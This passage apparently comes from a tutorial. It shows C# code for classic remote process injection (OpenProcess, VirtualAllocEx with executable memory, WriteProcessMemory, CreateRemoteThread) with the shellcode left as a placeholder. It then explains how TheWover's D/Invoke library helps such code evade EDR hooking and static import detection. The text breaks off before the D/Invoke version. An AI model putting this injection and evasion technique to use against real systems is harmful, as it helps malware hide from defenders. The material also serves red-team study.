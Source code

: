 ```cs
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out UIntPtr lpNumberOfBytesWritten);
        
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        
        public static void Main(string[] args)
        {			
            var shellcode = "...";
            
            IntPtr hProcess = OpenProcess(0x1F0FFF, false, int.Parse(args[0]));
            IntPtr alloc  = VirtualAllocEx(hProcess, IntPtr.Zero, (UInt32)(shellcode.Length), 0x00001000, 0x40);			
        
            UIntPtr bytesWritten;
            WriteProcessMemory(hProcess, alloc , shellcode, (UInt32)(shellcode.Length), out bytesWritten);			
        
            CreateRemoteThread(hProcess, IntPtr.Zero, 0, alloc , IntPtr.Zero, 0,IntPtr.Zero);
        }
    }
}			
```

However, as for [this](https://thewover.github.io/Dynamic-Invoke/) post by TheWover, with P/Invoke functions 
address will be statically resolved, meaning any reference to a Windows API will appear in the .NET Assembly’s IAT.
Moreover, an EDR looking for specific API calls will be able to intercept these calls.

For this reason, TheWover developed a new library to Dynamically resolve API functions address at runtime. This
can be done in 3 ways:
* Standard: dynamic search of the API address against the DLL mapped in memory (kernel32, ntdll, ...)
* Manual Mapping: dynamic search of the API address against a fresh copy of the DLL mapped from disk (bypass hooking!)
* Overload Mapping: dynamic search of the API address against a fresh copy of the DLL mapped from disk, which is also 
  backed up by a valid module on disk (stealthier)
  
Pretty cool, but how things will change from teh previous example?

P/Invoke worked with "signatures", D/Invoke works with "[Delegates](https://docs.microsoft.com/en-us/dotnet/csharp/programming-guide/delegates/)", which allows wrapping methods within a class. 
As such, we can think of any API now as a class, or type. In order to use these classes, we need to declare them, of course.

Note: I'm used to it, but to me this still works like magic.  

So let's see how the example above will change. 

Every signature from P/Invoke will have a parallel delegate in the new program: 
